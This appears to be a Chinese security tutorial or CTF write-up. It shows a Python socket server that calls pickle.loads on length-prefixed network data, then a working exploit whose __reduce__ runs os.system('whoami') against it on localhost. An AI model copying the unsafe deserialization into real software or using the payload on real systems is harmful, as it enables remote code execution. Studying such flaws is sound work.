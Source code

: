 服务端关键代码：

```python
# server
server = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
server.setsockopt(socket.SOL_SOCKET, socket.SO_REUSEADDR, 1)
server.bind((IP, PORT))
server.listen()

print(f"Server is running and listening on port {PORT}...")

while True:
    client, address = server.accept()
    client_ip, client_port = address
    print(f"Connected to client: {client_ip}:{client_port}")

    while True:
        try:
            data_len = client.recv(4)
            len = int.from_bytes(data_len)
            data = client.recv(len)
            info = pickle.loads(data)
            print_info(info)
        except Exception:
            client.close()
            break
```

可以看到，数据发送时会先计算序列化数据的长度，并将长度转换为 4 byte 拼接到序列化数据的头部；而数据接收时，会先接收 4 byte，转换为 int，用其作为长度接收序列化数据。

```python
# client
data = pickle.dumps(info)
data = len(data).to_bytes(4) + data

# server
data_len = client.recv(4)
len = int.from_bytes(data_len)
data = client.recv(len)
info = pickle.loads(data)
```

设计这样的传输方式是为了明确消息边界，保证数据完整。

漏洞利用的时候，也一样需要给数据前拼上“长度前缀”：

```python
import socket
import os
import pickle
from typing import Any

IP = "127.0.0.1"
PORT = 8848


class Evil:
    def __reduce__(self) -> str | tuple[Any, ...]:
        return (os.system, ("whoami",))


client = socket.socket()
client.connect((IP, PORT))

data = pickle.dumps(Evil())
data = len(data).to_bytes(4) + data
client.send(data)
```